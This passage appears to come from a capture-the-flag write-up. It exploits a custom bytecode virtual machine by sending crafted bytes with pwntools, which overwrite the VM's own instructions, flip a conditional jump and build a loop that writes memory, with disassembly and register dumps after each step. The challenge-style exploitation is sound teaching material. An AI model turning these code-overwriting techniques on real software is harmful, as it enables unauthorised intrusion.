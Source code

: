 
The next few bytes are to preserve the `getc [mp]` instruction at 0x98, and then change the jump at 0x9c. 

```python
io.send(b'\x00\x01\x00\x04\x00\x00\x00\x08\x01\x04')
```

We now flip the jump condition after the `putc [mp]` and `getc [mp]`, turning it from `jz` to `jnz`. We also changed the jump location to 0x90!

```
CODE:   0x00007ffed9243188
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064104  getc    [mp]
  90: 00000101  inc     mp
  94: 00010003  putc    [mp]
  98: 00000004  getc    [mp]    <- ip
  9c: 00040108  jnz     0x90
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0x9f -> 0x00
ip: 0x06 -> 00000004    getc    [mp]
```

So now, we almost have a loop we can work with. As long as the bytes we send are not zero, we can keep writing bytes to memory continuously.

---

I now flip it back that same jump back to jz...

```python
io.send(b'\x00\x07\x00\x05\x04\x00')
```

The bytes sent also make sure that the jump target is preserved:

```
CODE:   0x00007ffcf090a7f8
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064104  getc    [mp]
  90: 00000101  inc     mp
  94: 00010003  putc    [mp]
  98: 00000004  getc    [mp]    <- ip
  9c: 00040007  jz      0x90
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0xa0 -> 0x02
ip: 0x06 -> 00000004    getc    [mp]
```

